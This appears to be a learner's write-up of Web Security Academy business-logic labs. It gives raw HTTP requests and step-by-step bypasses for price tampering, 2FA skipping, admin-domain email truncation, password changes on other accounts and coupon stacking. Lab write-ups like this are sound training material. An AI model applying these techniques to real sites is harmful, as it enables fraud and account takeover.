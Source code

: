 # Title: Business Logic vulnerability's , *Web Academy*
- 👨‍💻By: Nathan Hailu
- 🗒Description: Labs are solved and their write up is here.
- 📅Date:  Fri 12/16/2022

================= { START } ==============================
A) Excessive trust in client-side controls
    When you order a products sites might include the amount of money inside the header as the following.
        POST /cart HTTP/1.1
        Host: 0a7600820378f9bac391207200d40016.web-security-academy.net
        Cookie: session=Ob6eiiqmMCuwttVCCRjagQEsg1US9tzR
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
        Connection: close

        productId=1&redir=PRODUCT&quantity=1&price=133700

        > Here we test the site by changing the price value to other and test if it works

B) 2FA broken logic
    Still looking into the header you can see that the site is validating the user by a cookie name called verify so changing the value there and trying to bruteforce the pin you can bypass it
        POST /login2 HTTP/1.1
        Host: 0aff00e303b87fdcc03c27c100a000fb.web-security-academy.net
        Cookie: session=liecaxPnaznrk54MItecLSRlMcNsz1g0; verify=carlos
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
        Connection: close

        mfa-code=1829

C) High-level logic vulnerability
    The website do client side validations, it check the price of a cart with client side javascript this can be manipulated by using some negative integers with the quantity of a product so i can buy $1339 price product by adding -15 quantity of $86 product when they are added the total price will be minimum and might be equal with the money we have in our stock.

D) Inconsistent handling of exceptional input
    This site displays 256 characters on the email field so, if i added 256 character with an admin email and extra {dot normal email} on the registration, then i can have the admin email displayed and the normal will be cut out. This helps to accept verification emails with my normal email, and have admin access with the admin email.
    solution: 
    email:"hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1@dontwannacry.com.exploit-0a2100e904a468d2c061673a01a40020.exploit-server.net"  

    Displayed: "hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1@dontwannacry.com"
    So i can have admin account.

E) Inconsistent security controls
    This lab, doesnt have any flaw on the registration and login part. but you have "Update email" feature. The admins have @Dontwannacry.com domain on the email so, it i registered with normal and changed my email to this domain then i can exploit the site/lab.

F) Weak isolation on dual-use endpoint
    Here The lab have a password changing feature.But it requires for Username, Current Password and New password. Here you can add any username you want, so if i don't know the current password of other users i can remove the current-password= parameter and i can change password of any users.
    1ST: csrf=hgWjhMMaGot3Veae57wqjvZiDZskB1kX&username=administrator&**current-password=peter**&new-password-1=peter&new-password-2=peter
    HACKER: csrf=hgWjhMMaGot3Veae57wqjvZiDZskB1kX&username=administrator&new-password-1=peter&new-password-2=peter

G) Password reset broken logic
    When we ask the site for forgotted password reset, the site sends some link that have a random and unique token that possesses to our account. we cant break this but if we intercept the request and send the new password after we accessed the password reseting page, we might have access to change other users pass to because of the broken logic. like below

	temp-forgot-password-token=FHxuvaqUKBZ31QE5PYpJabawSdcc57vM&username=carlos&new-password-1=test&new-password-2=test
		-> here we can change the user name and we got his password!

H) 2FA simple bypass
    - Some Sites will ask for OTP code in different page rather than the login, here the site know that u r logged it, so if you have the path for my profile or other pages on the site by just editing the url to that path you can skip the 2FA.
  
I) Insufficient workflow validation
    - SOme Sites do some confirmations and this site, when you ask for placing your order it will confirm on the way it confirm is it checks if you have enough money and if you have it will redirect to **/cart/order-confirmation?order-confirmed=true** if you don't have it will redirect to **/cart?err=INSUFFICIENT_FUNDS** so , we hackers can intercept and chang the failed redirecttion header to the working on so BOOM!!!
      - ERROR:
            HTTP/1.1 303 See Other
            Location: /cart?err=INSUFFICIENT_FUNDS
            Connection: close
            Content-Length: 0
      - Working:
            HTTP/1.1 303 See Other
            Location: /cart?err=INSUFFICIENT_FUNDS  =>  /cart/order-confirmation?order-confirmed=true
            Connection: close
            Content-Length: 0

J) Authentication bypass via flawed state machine
    - This page validates the privilege of a user with a page called role-selector so if we drop/skip this request while signing in BOOM!
    -  In Burp, turn on proxy intercept then log in.
        Forward the POST /login request. The next request is GET /role-selector. Drop this request and then browse to the lab's home page. Observe that your role has defaulted to the administrator role and you have access to the admin panel.

K) Flawed enforcement of business rules
    - There are 2 coupon codes on this system if you added them sequentially it works else if u added just the 1st 2 time+ it is invalid so by reusing them sequentially it will work
      - NEWCUST5	-$5.00		
        SIGNUP30	-$401.10		
        NEWCUST5	-$5.00		
        SIGNUP30	-$401.10		
        NEWCUST5	-$5.00		
        SIGNUP30	-$401.10		
        NEWCUST5	-$5.00		
        SIGNUP30	-$401.10	                =>   LIKE THIS.!!!


    
